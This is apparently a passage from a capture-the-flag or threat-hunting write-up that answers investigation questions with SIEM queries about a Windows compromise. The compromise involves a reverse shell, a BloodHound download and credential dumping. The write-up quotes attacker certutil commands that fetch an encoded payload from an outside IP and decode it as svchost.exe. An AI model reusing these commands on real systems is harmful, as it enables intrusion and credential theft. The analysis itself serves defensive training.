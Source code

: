 ```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: ProcessCreate
```

Put the PID of the spawned process `dwm.exe` first.

***Q10 The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command center. Sample answer: 192.168.0.1:123***

```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: NetworkConnection
```

The network connection comes from yet another process, `rundll32.exe`. Another layer of obfuscation.

***Q11 As a result of running a malicious code, which we talked about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

Looking for `NetworkConnection AND FileCreate` events after the initial `rundll` network connection took place. Limiting results:

```text
(event_type : "NetworkConnection" or event_type : "filecreate") and not proc_p_file_path : "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
```

1. At `23:46:10.000`, `certutil` (which has a history of being used as a lolbin) makes a network connection, downloads a file `chrome_installer.log2`, and creates a file by the name of `svchost.exe` and . 

At 23:46:10.000:

```text
certutil  -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data
```

At 23:46:17.000:

```text
certutil  -decode C:\Windows\TEMP\chrome_installer.log2:data C:\Windows\TEMP\svchost.exe
```

2. Apparently, bloodhound was run.
3. `chrome_installer.log2` is a base64 encoded form of Bloodhound, after which `certutil` was used again to decode and save it to disk as `svchost.exe`.

Filtering for `C:\Windows\TEMP\svchost.exe` gives its SHA256, the answer.

***Q12 During the post-exploitation process, the attacker used one of the standard Windows utilities to create a memory dump of a sensitive system process that contains credentials of active users in the system. Specify the name of the executable file of the utility used and the name of the memory dump file created, separated by a comma without spaces. Sample answer: program.exe,file.ext***

```text
event_type: FileCreate OR event_type: FileOpen
```
